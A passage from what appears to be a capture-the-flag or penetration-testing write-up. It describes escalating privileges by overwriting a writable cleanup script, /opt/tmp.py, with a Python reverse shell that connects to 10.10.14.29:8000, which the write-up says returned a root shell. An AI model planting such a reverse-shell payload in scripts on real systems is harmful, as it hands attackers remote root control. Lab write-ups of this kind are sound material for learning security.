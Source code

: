    ![image-20201026213610020](.Report.assets/image-20201026213610020.png)

5. This account had a restricted shell, but thanks to the reverse shell command setup with the James exploit, when she logged in, a second shell was kicked off in my netcat listener that was not restricted.
   ![image-20201026213658471](.Report.assets/image-20201026213658471.png)

6. As I was enumerating the system, I noticed mindy had write access to the file /opt/tmp.py, which was a script that cleaned out the tmp directory.  On a whim, I made a backup of this file in her home directory and replaced it with a file containing the following code:

   ```bash
   import socket,subprocess,os
   s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
   s.connect(("10.10.14.29",8000))
   os.dup2(s.fileno(),0); os.dup2(s.fileno(),1)
   os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])
   ```

7. I started a netcat listener and pretty quickly a received a reverse shell as the root user!
   ![image-20201026215538002](.Report.assets/image-20201026215538002.png)
